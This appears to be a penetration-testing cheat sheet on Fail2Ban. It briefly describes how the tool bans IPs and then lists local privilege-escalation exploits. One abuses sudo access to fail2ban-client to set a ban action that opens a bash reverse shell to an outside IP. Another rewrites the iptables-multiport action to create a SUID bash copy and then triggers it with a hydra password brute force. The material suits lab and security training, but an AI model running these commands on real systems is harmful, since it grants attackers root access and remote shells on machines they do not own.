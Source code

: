
# **What is Fail2Ban?**
Fail2Ban is a security program that is designed to prevent brute force attacks. To do this, Fail2Ban scans log files like **/var/log/auth.log** and bans IP addresses conducting too many failed login attempts.
- Once an offending IP address is found, Fail2Ban updates system firewall rules to reject new connections from that IP address, for a configurable amount of time.
- By default, Fail2Ban will ban an IP address for ten minutes when five authentication failures have been detected within ten minutes.

# Exploits
## Sudo Fail2ban-client
```sh
# Trigger reverse shell when blocking someone.
sudo fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/10.4.104.91/4441 0>&1'"

# Manual ban, "Manual Trigger for exploit"
sudo fail2ban-client set sshd banip 127.0.0.2
```
## sudo on fail2ban restart
```sh
nano /etc/fail2ban/action.d/iptables-multiport.conf
actionban = cp /bin/bash /tmp && chmod 4755 /tmp/bash
sudo /etc/init.d/fail2ban restart

# Trigger the action by fail ssh login attempt
hydra -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt ssh://172.16.1.175


/tmp/bash -p # now you can get root shell.

```



For more: https://juggernaut-sec.com/fail2ban-lpe/
